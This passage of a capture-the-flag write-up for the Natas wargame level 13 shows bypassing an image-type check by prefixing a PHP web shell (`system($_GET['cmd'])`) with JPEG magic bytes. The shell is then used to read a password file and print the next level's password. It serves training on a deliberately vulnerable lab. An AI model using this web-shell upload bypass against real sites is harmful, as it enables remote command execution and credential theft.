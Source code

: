 ```php
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?> 
```

When we upload `.php` file, the response is `"File is not an image` because the function `exif_imagetype`. This method only reads the first bytes of an image and checks its signature. For details file signature, you can visit [`here`](https://filesignatures.net/index.php?search=jpg&mode=EXT). So we can inject php code to somewhere in image, as long as not in the first bytes.

We create the `shell.php` with first bytes is \xFF\xD8\xFF\xE0 (JPG's signature) by using `shell_image.py` look like following:

```python
# shell_image.py
f = open('shell.php', 'w')
f.write('\xFF\xD8\xFF\xE0' + '\t' + '<?php $data=system($_GET["cmd"]); echo $data;?>')
f.close()
```
When try open `shell.php`:

```php
ÿØÿà    <?php $data=system($_GET["cmd"]); echo $data;?>
```

After upload `shell.php`, we can see:

```php
����
Notice: Undefined index: cmd in /var/www/natas/natas13/upload/2i08bhv52e.php on line 1

Warning: system(): Cannot execute a blank command in /var/www/natas/natas13/upload/2i08bhv52e.php on line 1
```

Add param into url `?cmd=cat /etc/natas_webpass/natas14`, we can get the password natas14

```
���� Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
